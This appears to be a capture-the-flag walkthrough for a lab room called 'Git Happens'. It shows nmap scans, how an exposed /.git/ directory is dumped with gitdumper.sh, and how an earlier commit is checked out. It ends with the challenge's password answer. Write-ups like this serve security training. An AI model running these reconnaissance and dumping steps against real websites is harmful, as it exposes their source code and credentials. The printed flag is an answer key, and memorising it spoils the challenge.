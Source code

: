 # Git Happens | Easy

## Overview

Boss wanted me to create a prototype, so here it is! We even used something called "version control" that made deploying this really easy!

Difficulty: **Easy**
## Walkthrough

Scanning all ports only shows port 80 is open (HTTP):

```console
$ nmap -p- -T4 VICTIM_IP -oN scans/initial.nmap
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-18 16:21 GMT
Nmap scan report for VICTIM_IP
Host is up (0.040s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 30.38 seconds
```

Running a full scan against this port confirms it is running Ubuntu with version `1.14.0` of Nginx and finds a Git repository at `/.git/`.

```console
$ nmap -p 80 -A -T4 VICTIM_IP -oN scans/openports.nmap   
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-18 16:22 GMT
Nmap scan report for VICTIM_IP
Host is up (0.032s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
| http-git: 
|   VICTIM_IP:80/.git/
|     Git repository found!
|_    Repository description: Unnamed repository; edit this file 'description' to name the...
|_http-title: Super Awesome Site!
|_http-server-header: nginx/1.14.0 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (93%), Linux 3.1 - 3.2 (93%), Linux 3.11 (93%), Linux 3.2 - 4.9 (93%), Linux 3.5 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   31.42 ms 10.9.0.1
2   31.52 ms VICTIM_IP

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.53 seconds
```

Navigating to the website shows a login form:

![GitHappens - LoginForm](/images/githappens_loginform.png)

From our Nmap scan, recall that there is a `/.git/` directory which holds the structure of a GitHub repository:

![GitHappens - .git directory](/images/githappens_git_directory.png)

We can use [gitdumper.sh](https://raw.githubusercontent.com/internetwache/GitTools/master/Dumper/gitdumper.sh) from [GitTools](https://github.com/internetwache/GitTools) to dump the Git repository from the site:

```console
$ wget https://raw.githubusercontent.com/internetwache/GitTools/master/Dumper/gitdumper.sh
$ chmod +x gitdumper.sh
$ ./gitdumper.sh http://VICTIM_IP/.git/ .
```

![GitHappens - gitdumper.sh](/images/githappens_gitdumper.png)

We now have a `.git/` folder downloaded to our attacker machine. With this, we can run `git log` to show the commit logs. From the log, we can see a security change was made to obfuscate the code at commit `e56eaa8e29b589976f33d76bc58a0c4dfb9315b1`.

```console
$ git log
```

![GitHappens - Commit Log](/images/githappens_commitlog.png)

As such, we can run `git checkout` to load the previous commit `395e087334d613d5e423cdf8f7be27196a360459` and view the deobfuscated code.

```console
$ git checkout 395e087334d613d5e423cdf8f7be27196a360459
```

We can view the `index.html` file to view the **Super Secret Password**:

![GitHappens - Admin Credentials](/images/githappens_admin_credentials.png)

-----

1. Find the Super Secret Password.

```
Th1s_1s_4_L0ng_4nd_S3cur3_P4ssw0rd!
```